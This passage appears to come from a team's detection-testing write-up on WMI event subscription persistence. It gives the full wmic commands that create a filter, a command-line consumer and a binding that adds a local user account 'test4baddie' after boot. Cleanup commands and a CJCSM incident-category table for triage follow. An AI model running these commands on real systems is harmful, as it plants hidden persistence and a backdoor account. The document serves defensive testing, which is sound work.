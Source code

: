 ```powershell
```
#### Test 3
Creating a Windows Event Subscription using wmic.exe that executes the event after system uptime is roughly 4 minutes and adds a user
Event Placed: 1708 UTC
Event Triggered: 1713 UTC

- Create Filter
```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="team4_filter_test4", EventNameSpace="root\cimv2",QueryLanguage="WQL",Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
```
- Create Consumer
```cmd
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="team4_consumer_test4",CommandLineTemplate="cmd.exe /c net user test4baddie password /add"
```
- Create FilterToConsumerBinding
```cmd
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"team4_filter_test4\"",Consumer="CommandLineEventConsumer.Name=\"team4_consumer_test4\""
```

##### Cleanup Test 3
```powershell
Get-WmiObject -Namespace root/CimV2 -Class CommandLineEventConsumer -Filter "Name = 'team4_consumer_test4'" | Remove-WmiObject
Get-WmiObject -Namespace root/CimV2 -Class __EventFilter -Filter "Name = 'team4_filter_test4'" | Remove-WmiObject
```

## Priority

**CAT Levels (reference CJCSM 6510.01B)**

Category - Description

**1 - Root Level Intrusion (Incident)**   
*Malicious Filter and Consumer has been triggered*

2 - User Level Intrusion (Incident)

**3 - Unsuccessful Activity Attempt (Event)**  
*Consumer with malicious logic detected, but not triggered*

4 - Denial of Service (Incident)

5 - Non-Compliance Activity (Event)

6 - Reconnaissance (Event)

**7 - Malicious Logic (Incident)**  
*Filter with no associated malicious Consumer*
